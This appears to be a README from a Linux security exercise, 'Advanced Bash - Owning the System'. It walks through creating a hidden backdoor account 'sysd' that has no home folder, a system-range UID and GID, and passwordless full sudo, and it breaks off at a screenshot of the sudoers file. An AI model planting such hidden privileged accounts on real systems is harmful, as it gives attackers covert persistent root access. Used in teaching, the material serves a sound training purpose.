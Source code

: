 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
                • sudo useradd sysd

    2.	Give your secret user a password:
                • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
                • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
                • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
                • sudo visudo

```html
<i>After executing the above command, you will be brought into the <b>sudoers file<b> to edit as seen in photo below.</i>```
![see photo](/images/picture1.png)